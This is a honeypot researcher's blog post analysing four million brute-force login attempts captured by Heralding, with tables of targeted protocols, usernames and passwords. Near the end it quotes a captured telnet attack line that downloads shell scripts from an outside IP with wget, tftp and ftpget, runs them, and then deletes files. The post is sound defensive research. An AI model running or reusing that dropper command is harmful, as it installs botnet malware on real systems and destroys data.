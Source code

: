 ```yaml
---
title: "Initial analysis of four million login attempts"
date: "2016-09-09"
categories: 
  - "analysis"
tags: 
  - "analysis-d79"
  - "heralding-d24"
  - "honeypot-d9"
---
```


**Introduction**

This blog post is a follow up to an [earlier article](https://honeynet.org/node/1321), where I set out to conceive a system that could deliver the data needs to answer 5 specific questions.

**The setup**

To provide the data needed for this analysis, my setup consisted of 4 VPS situated respectively at Amazon EC2, Azure, MeeBox and a Danish ISP end-user connection. Even though the same 4 VPS were used throughout the data collection, 6 different IP addresses were used for the honeypots - the reason for this was that one of the honeypots had a dynamically assigned IP address. As mentioned in an [earlier article](https://honeynet.org/node/1321) all honeypots were running Heralding. The technical setup was automated with ansible.

**Time period and initial data**

A subset of all collected data was selected for analysis, the subset covered the period 24. may 2016 to 24. august 2016. In this period there were 4,369,149 login attempts. For each login attempt the following data was available:

timestamp, session\_id, auth\_id, protocol, source\_ip, source\_port, destination\_ip, destination\_port, username, password.

**Which protocols does my adversary try to brute-force?**

Since Heralding only supports 6 protocols (8 if you include ssl wrapped http and pop3), the possibility space is limited to the supported protocols. Furthermore the HTTP capability only supports basic authentication and the pop3 and smtp implementations also only supports a limited subset of the authentication mechanisms normally available for said protocols.

As expected the two most targeted protocols was SSH and Telnet, these two protocols combined saw around 93% of all brute force activity. More surprisingly it was found that SMTP and POP3 only saw around 7% of all activity, I expected the numbers for email protocols would be higher, but maybe SMTP relays sells too cheap to be worth the hassle?

<table><caption>Attacks per protocol</caption><tbody><tr><th>Protocol</th><th>Attempts</th><th>Percentage</th></tr><tr><td>SSH</td><td>2717874</td><td>62%</td></tr><tr><td>Telnet</td><td>1353050</td><td>31%</td></tr><tr><td>SMTP</td><td>196601</td><td>5%</td></tr><tr><td>POP3</td><td>83420</td><td>2%</td></tr><tr><td>HTTP</td><td>17990</td><td>&lt;1%</td></tr><tr><td>FTP</td><td>194</td><td>&lt;1%</td></tr><tr><td>HTTPS</td><td>20</td><td>&lt;1%</td></tr><tr><td>POP3S</td><td>0</td><td>0</td></tr></tbody></table>

**Which username and password did he use?**

A total of 11685 usernames and 128001 was collected during the period. Not surprisingly the username root comes in at a first place with 2955040 login attempts. More surprising the second most attempted password was _/bin/busybox MIRAI_, this is most definitely not an password attempt - but looks more like trying to execute some known malware. Never the less this was attempted 106969 times, it would be interesting to look at the timing of these - maybe it can be correlated with OSINT on this specific malware. Update: For further information in regards to MIRAI, check this [article](http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html?m=1) by [MalwareMustDie](http://malwaremustdie.org).

<table><caption>Top 5 username</caption><tbody><tr><th>Username</th><th>Attempts</th></tr><tr><td>root</td><td>2955040</td></tr><tr><td>admin</td><td>300637</td></tr><tr><td>shell</td><td>147641</td></tr><tr><td>support</td><td>114015</td></tr><tr><td>sh</td><td>107741</td></tr></tbody></table>

<table><caption>Top 5 passwords</caption><tbody><tr><th>Password</th><th>Attempts</th></tr><tr><td>enable</td><td>107361</td></tr><tr><td>/bin/busybox MIRAI</td><td>106969</td></tr><tr><td>12345</td><td>105879</td></tr><tr><td>admin</td><td>101248</td></tr><tr><td>1234</td><td>89741</td></tr></tbody></table>

A curated list of all attempted passwords can be found [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_passwords.txt) and a list of usernames [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_usernames.txt).

**Future work**

Still 3 of the original questions need to be answered, the data is at hand - and will result in another blog post when I find the time. For the record, the remaining questions are:

- At which speed did he brute-force?
- From where did he proxy from?
- What time of day did he brute-force?

Also it would be interesting to do an analysis of username and password combinations.

One thing i especially noted, is that some of telnet login attempts is not normal bruteforce activity. Some of it looks to be raw shell exploitations attempts:

`cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://104.207.135.146/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 104.207.135.146 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 104.207.135.146; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 104.207.135.146 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *`

Others looks to be some kind of malfunctional bot:

`Failed opening raw socket.Failed setting raw headers mode.all,synrstfinackpshInvalid flag "%s"PONG!GETLOCALIPMy IP: %sSCANNERSCANNER ON | OFFOFFSCANNER STOPPED!ONSCANNER STARTED!HOLDJUNKUDPTCPKILLATTKLOLNOGTFO8`

And now it gets plain old weird, this entry looks like logs from another honeypot: `Failed telnet attempt - 2.180.25.253:root:toor Failed telnet attempt - 120.36.60.61:admin:toor`

Want to do your own analysis or crazy visualizations? [Contact me](mailto:jkv@unixcluster.dk), and I will provide you with the raw data (IP addresses will be sanitized). The only condition, is that your analysis must be made public.

 

Regards,

Johnny Vestergaard

[LinkedIN](https://www.linkedin.com/in/johnnykv)

[Mail](mailto:jkv@unixcluster.dk)
